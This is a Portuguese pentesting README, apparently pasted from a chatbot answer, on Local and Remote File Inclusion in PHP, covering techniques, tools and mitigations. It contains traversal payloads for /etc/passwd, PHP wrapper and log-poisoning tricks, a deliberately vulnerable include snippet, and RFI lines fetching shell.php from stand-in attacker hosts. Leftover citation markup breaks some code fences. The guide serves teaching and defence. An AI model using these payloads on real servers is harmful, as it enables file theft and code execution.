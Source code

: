 # 🧪 LFI & RFI – Testes de Inclusão de Arquivos

## Descrição

Este guia apresenta técnicas para identificar e explorar vulnerabilidades de **Local File Inclusion (LFI)** e **Remote File Inclusion (RFI)** em aplicações web, especialmente em PHP – com base em práticas consolidadas de pentesting.

## 📌 Tipos de Vulnerabilidades

### LFI (Local File Inclusion)

Permite que um atacante inclua arquivos do sistema local, como `/etc/passwd`, por meio de parâmetros de URL mal validados ([Wikipedia][1], [Invicti][2]).

### RFI (Remote File Inclusion)

Permite incluir e executar arquivos hospedados remotamente em servidores controlados pelo atacante, geralmente via URL como `http://attacker.com/shell.php` ([Invicti][3], [Imperva][4]).

---

## ⚙️ Técnicas Comuns de Exploração

### Traversal (Escalonamento de Diretórios)

Uso de seqüências como `../../../../etc/passwd` ou encoded/truncation variations (ex: `....//....//etc/passwd`) para escapar do diretório raiz&#x20;
.

### Codificações e Encodings

* **URL Encoding**: `..%2F..%2Fetc/passwd`
* **Double Encoding**: `..%252F..%252Fetc`
* **UTF‑8 truncation / meta:** `%c0%ae%c0%ae/etc/passwd` ([Exploit Notes][5], [HackTricks][6])

### Null Byte (%00)

Usado para truncar a extensão `.php` em aplicações vulneráveis (funciona em versões anteriores ao PHP 5.4) ([Exploit Notes][5], [Medium][7]).

### Wrappers PHP (e.g. `php://filter`, `php://input`)

* Extrair conteúdo de arquivos via base64 (`php://filter/read=convert.base64-encode/resource=index.php`)
* Execution via `php://input` para LFI → RCE .

### Log Poisoning / Inclusion de Arquivos de Log

Inserção de payloads via user-agent ou parâmetros em logs do servidor (`/proc/self/environ`) e posterior inclusão através de LFI ([Medium][7], [Wikipedia][1]).

### Upload de Arquivos Temporários

Se uma vulnerabilidade de upload permitir a criação de arquivos temporários previsíveis, um LFI pode explorá-los antes que sejam excluídos ([HackTricks][6]).

---

## 🛠 Ferramentas Utilizadas

* **Fimap**: ferramenta para identificar e explorar LFI / RFI automaticamente ([HackTricks][6]).
* Ferramentas de pentest como **Burp Suite**, **ZAP**, **Nessus**, e **Acunetix / Invicti**, capazes de detectar automaticamente pontos de inclusão de arquivos ([Number Analytics][8], [Invicti][2], [Invicti][3]).

---

## 🚫 Prevenção e Mitigações

### Validação de Entrada

* **Utilize whitelist** de arquivos permitidos ao invés de aceitar qualquer valor do usuário ([Medium][7], [Invicti][2], [Invicti][3]).
* Bloqueie ou filtre strings perigosas como `../`, `://` ou sequências codificadas.

### Configurações seguras de PHP

* **Desative `allow_url_include = Off`** (PHP ≥ 7.4 descontinuou essa funcionalidade) .
* **Desative `allow_url_fopen`**, se possível.

### Isolamento de Ambiente

Hospede as aplicações em ambientes isolados (como Docker) para limitar o impacto de possíveis inclusões arbitrárias ([Invicti][2]).

### Evitar Blacklists

Blacklists e filtros são insuficientes — atacantes podem contornar rapidamente com técnicas de encoding ou wrappers ([Invicti][2], [Medium][7]).

---

## 📋 Exemplos

### Vulnerável em PHP:

```php
<?php
$page = $_GET['page'];
include("pages/$page");
?>
```

Ataque típico LFI:

```
/script.php?page=../../../../etc/passwd
```

Ataque RFI (para servidores com `allow_url_include` ativado):

````
/script.php?page=http://atacante.com/shell.php
``` :contentReference[oaicite:14]{index=14}

---

## 🔎 Fluxo Típico de Teste

1. Identificar parâmetros passados para funções `include`, `require`, etc.
2. Testar traversal simples e encoded payloads.
3. Avaliar possibilidade de incluir arquivos de logs ou wrappers.
4. Testar RFI em ambientes PHP configurados com `allow_url_include`.
5. Automatizar com Fimap ou Burp Suite para descobertas escaláveis.
6. Validar configurações de whitelist ou desabilitar inclusões dinâmicas.

---

## ✅ Resumo

| Tipo    | Finalidade               | Risco principal                            |
|---------|---------------------------|--------------------------------------------|
| **LFI** | Inclusão de arquivos locais | Vazamento de dados ou escalation para RCE |
| **RFI** | Inclusão de arquivos remotos | Execução arbitrária de código no servidor  |

### Mitigação:
- Whitelist de valores permitidos
- Desativar features de include remoto
- Usar práticas sólidas de validação e codificação segura

---

## 🧠 Referências

- HackTricks: File Inclusion / Path traversal – técnicas e payloads para LFI/RFI :contentReference[oaicite:15]{index=15}  
- Invicti / Spanning / Imperva – definições, riscos e mitigação de LFI/RFI :contentReference[oaicite:16]{index=16}  
- Wikipedia e Exploit‑Notes – exemplos técnicos e encodings comuns :contentReference[oaicite:17]{index=17}

---

Se quiser que torne esse README mais detalhado (com payloadlists ou scripts), posso expandir!
::contentReference[oaicite:18]{index=18}
````

[1]: https://en.wikipedia.org/wiki/File_inclusion_vulnerability?utm_source=chatgpt.com "File inclusion vulnerability"
[2]: https://www.invicti.com/learn/local-file-inclusion-lfi/?utm_source=chatgpt.com "Local File Inclusion (LFI) - Invicti"
[3]: https://www.invicti.com/learn/remote-file-inclusion-rfi/?utm_source=chatgpt.com "Remote File Inclusion (RFI) - Invicti"
[4]: https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/?utm_source=chatgpt.com "What is RFI | Remote File Inclusion Example & Mitigation Methods"
[5]: https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/?utm_source=chatgpt.com "File Inclusion (LFI/RFI) - Exploit Notes"
[6]: https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion?utm_source=chatgpt.com "File Inclusion/Path traversal - HackTricks - Boitatech"
[7]: https://medium.com/%40Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601?utm_source=chatgpt.com "Local File Inclusion (LFI) — Web Application Penetration Testing"
[8]: https://www.numberanalytics.com/blog/file-inclusion-exploitation-penetration-testing?utm_source=chatgpt.com "File Inclusion Exploitation: A Penetration Tester's Guide"
